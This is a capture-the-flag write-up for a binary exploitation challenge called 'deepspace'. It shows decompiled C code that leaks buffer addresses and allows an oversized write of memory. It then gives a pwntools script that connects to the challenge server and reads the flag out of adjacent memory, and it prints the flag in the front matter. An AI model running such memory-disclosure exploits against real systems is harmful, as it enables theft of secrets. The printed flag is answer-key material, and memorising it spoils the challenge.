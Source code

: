 ```yaml
---
title: deepspace
categories: "Binary Exploitation"
authors: whokkk
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 100
solves: 56
flags: SCH25{Kur4ng_T4hU_Ju9A_Y4H_muNgKiN_SuaTu_s4At_b4KaL_When_Yh}
---
```


> beep beep brrr ptm ptm.

---

In this challenge, we're given a binary that runs a menu with several options. Here's a code snippet from the challenge's main function:

```c
void __noreturn start_challenge()
{
  int v0; // [rsp+0h] [rbp-30h] BYREF
  int fd; // [rsp+4h] [rbp-2Ch]
  size_t nbytes; // [rsp+8h] [rbp-28h] BYREF
  void *v3; // [rsp+10h] [rbp-20h]
  void *buf; // [rsp+18h] [rbp-18h]
  int v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 0;
  v3 = mmap(0, 0x1375u, 3, 34, -1, 0);
  buf = mmap(0, 0x169u, 3, 34, -1, 0);
  while ( 1 )
  {
    print_menu();
    __isoc99_scanf("%d", &v0);
    getchar();
    switch ( v0 )
    {
      case 1:
        printf("Payload size: ");
        __isoc99_scanf("%lu", &nbytes);
        getchar();
        puts("Send your diagnostic signal!");
        read(0, buf, nbytes);
        puts("[+] Signal sent.");
        break;
      case 2:
        puts("[*] Encrypted message detected! Routing to secure buffer...");
        fd = open("./flag", 0);
        if ( fd == -1 )
        {
          perror("Error opening flag file");
          exit(1);
        }
        read(fd, v3, 0x64u);
        close(fd);
        v5 = 1;
        puts("[+] Message stored successfully");
        break;
      case 3:
        printf("Enter log size: ");
        __isoc99_scanf("%lu", &nbytes);
        getchar();
        puts("\n--- Full Diagnostic Log ---");
        write(1, buf, nbytes);
        puts("\n--- End of Full Log ---");
        break;
      case 4:
        puts("[*] Rebooting array... Goodbye.");
        exit(0);
      case 5:
        puts("\n--- Aliens Info ---");
        printf("Aliens 1: %p\n", v3);
        printf("Aliens 2: %p\n", buf);
        puts("--------------------");
        break;
      default:
        puts("[!] Invalid command.");
        break;
    }
  }
}
```

We can see the address information for `v3` and `buf` in option 5. Knowing these addresses, we can calculate the offset between `v3` and `buf`. Then, we can use option 2 to read the flags into `v3`, then use option 3 to print a log file larger than the `buf` buffer size, allowing us to print the contents of `v3` containing the flags.

Here is the complete exploit script:

```py
from pwn import *
import re

BINARY = './chall'

context.log_level = 'info'
context.binary = BINARY

# r = process(BINARY)
r = remote('103.185.52.103', 2001)

r.recvuntil(b'> ')
r.sendline(b'5')

r.recvuntil(b'--- Aliens Info ---\n')
alien1 = r.recvline()
alien2 = r.recvline()

m1 = re.search(r'Aliens 1:\s*(0x[0-9a-fA-F]+)', alien1.decode())
m2 = re.search(r'Aliens 2:\s*(0x[0-9a-fA-F]+)', alien2.decode())

log.info(f'v3: {m1.group(1)}')
log.info(f'buf: {m2.group(1)}')

r.sendline(b'2')

offset = int(m1.group(1), 16) - int(m2.group(1), 16)
log.info(f'offset: {hex(offset)}')

r.sendline(b'3')
r.recvuntil(b'Enter log size:')
dump_size = offset + 0x64
log.info(f'dump size: {dump_size}')
r.sendline(str(dump_size).encode())

r.interactive()
```
